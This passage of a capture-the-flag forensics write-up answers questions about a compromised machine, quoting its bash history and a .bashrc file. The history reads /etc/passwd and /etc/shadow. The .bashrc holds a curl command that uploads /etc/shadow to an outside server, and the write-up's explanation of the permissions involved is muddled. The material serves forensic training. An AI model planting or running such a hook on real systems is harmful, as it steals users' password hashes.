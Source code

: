 ```console
vim /etc/hosts
cat /etc/passwd
cat /etc/shadow
ifconfig
nmap -sL -n 192.168.2.1/32 | grep 'Nmap scan report for' | cut -f 5 -d ' '
cd application/l
cd application/
ls
git diff
git status
git commit
git push origin master
cd ../
cat README.md
```

__Answer: vim /etc/hosts__

--

__What is the URL that the hacker uses to process uploads of the /etc/shadow file (use the full URL, including port)?__

For this one the answer won't be in the bash history... but it will be in the bash shell script. This might be due to the fact that the hacker had no admin permissions and needed a way to upload the file - thus the __.bashrc__ might have improper permissions set, giving all users "root" privilege.

```console
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# ls -a
.  ..  application  .bash_history  .bashrc  docs  README.md
root@kali:~/Downloads/NCL-2016-Game2-Compromise/dir# cat .bashrc 
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

---snip---

curl \
  -F "image=@/etc/shadow" \
  http://216.242.103.2:3000/uploader.php
```
__Answer: http://216.242.103.2:3000/uploader.php__

--

## Other Write-ups and Resources

* [Jack Halon - KKB](https://jhalon.github.io/ncl-regular-season-1/)
